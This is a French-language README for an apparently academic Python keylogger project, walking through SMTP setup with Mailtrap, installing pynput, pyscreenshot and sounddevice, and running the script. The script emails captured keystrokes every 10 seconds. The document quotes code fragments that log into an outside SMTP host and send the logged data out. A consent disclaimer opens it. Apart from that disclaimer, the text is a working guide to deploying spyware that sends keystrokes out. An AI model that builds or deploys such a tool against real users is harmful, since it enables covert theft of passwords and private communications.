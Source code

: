 **DISCLAIMER**

Ce projet a ete realise a des fins academiques. L'utilisation de logiciels tels qu'un keylogger doit toujours respecter les lois et l ethique.

**Ne pas utiliser ce script a des fins d'enregistrement de frappes sur l'ordinateur d'autrui (ou sur le votre en ciblant un autre utilisateur) sans le consentement explicite de ce dernier.**

**Ne testez jamais un keylogger sur une machine ou vous n avez pas la permission explicite de le faire.**

**Veuillez utilisez ce script dans un environnement securise (par exemple, une machine virtuelle ou un ordinateur de test), controle et legalement acceptable.**

**Utilisez un compte SMTP dedie et ne partagez jamais vos informations personnelles.**




**Ce script permet d'enregistrer les frappes de clavier. Ces informations recueillies sont envoyees a une boite mail toutes les 10 secondes.**



*Etape 1 : Definir les identifiants SMTP*

Le protocole SMTP (Simple Mail Transfer Protocol) est utilise pour envoyer des e-mails.
Un moyen mnemotechnique de retenir sa definition est : SMTP <=> Send mail to people


La premiere etape va donc etre de creer un compte mail dedie a la reception des informations enregistrees avec le keylogger.

Nous avons fait le choix du systeme de messagerie "Mail trap". Apres avoir cree un compte avec des donnees jetables, nous devons configurer les identifiants SMTP dans le script.

Ouvrez le fichier qui se nomme "Keylogger.py" dans un editeur de texte comme VSCode ou Notepad++.

Cherchez les lignes o "SMTP_USERNAME" et "SMTP_PASSWORD" sont mentionnes.

Remplacez-les par vos propres informations :

Dans cette section, nous allons definir l'adresse mail ainsi que le mot de passe mail :

finally:
    EMAIL_ADDRESS = "xxxxxx" #Remplacer par le "username" de Mailtrap
    EMAIL_PASSWORD = "xxxxxx" #Remplacer par le "password" de Mailtrap

![information sur le mail](images/infos_mail.png)



Dans cette section, nous allons entrer le numero du port SMTP, nous permettant d'envoyer les informations enregistres vers la boite de reception.

m += message
	with smtplib.SMTP("sandbox.smtp.mailtrap.io", 25) as server: # Mettre le numero de port defini dans les instructions Mailtrap
        server.login(email, password)
        server.sendmail(sender, receiver, message)

Ainsi, le port numero 25 est defini. 

![information SMTP](images/smtp_screenshot.png)



*Etape 2 : Installer les dependances necessaires*

Depuis le terminal, on va lancer la commande pip install -r requirements.txt

Cette commande permet d'installer toutes les bibliotheques listees dans le fichier requirements.txt

Ce fichier contient les lignes suivantes :

pynput==1.7.3 : controler et surveiller le clavier et la souris
pyscreenshot==3.1 : prendre des captures d'ecran
sounddevice==0.4.3 : gerer l'enregistrement de sons
Pillow==9.3.0 : bibliotheque de traitement d'images



*Etape 3 : Executer le keylogger*

Toujours depuis le terminal, on lance le script depuis le fichier keylogger.py

On lance la commande python keylogger.py

Le script commence alors a enregistrer les frappes de claviers

Les donnees sont envoyees toutes les 10 secondes dans la boite de reception.




En cas d'erreur :

Il pourrait y avoir une probleme avec le paquet pyscreenshot lors de son installation

L'erreur pourrait par exemple liee a une incompatibilite entre la version de pyscreenshot demandee (0.5.1) et votre environnement Python

Pour resoudre ce probleme

Modifier la ligne pyscreenshot==0.5.1

par

pyscreenshot==[derniere version en vigueur]

A la date du 15/11/2024, la derniere version utilisee pour pyscreenshot est : 3.1

Si vous rencontrez encore des erreurs, ajustez les versions jusqu'a ce que toutes soient compatibles avec votre version de Python

Vous pourriez par exemple avoir des problemes d'incompatibilite entre votre version de Python et la version de Pillow



Correspondances pillow et python : site internet : https://pillow.readthedocs.io/en/stable/installation/python-support.html


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python.png)


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python1.png)


**Pour arreter le keylogger** :

Il fonctionne en arriere-plan comme un processus. Afin de l'arreter, entrer dans le terminal : Ctrl + C

Si cela ne fonctionne pas, entrer dans le terminal :

tasklist | findstr python

Cela permettra d'afficher tous les processus Python qui sont actifs. Il suffit ensuite d'identifier le PID associe au script.

**Pour l'arreter, entrer dans le terminal :**

taskkill /PID [PID du script] /F

Enfin, si le keylogger enregistre les frappes de clavier dans un fichier temporaire, supprimer ce fichier.
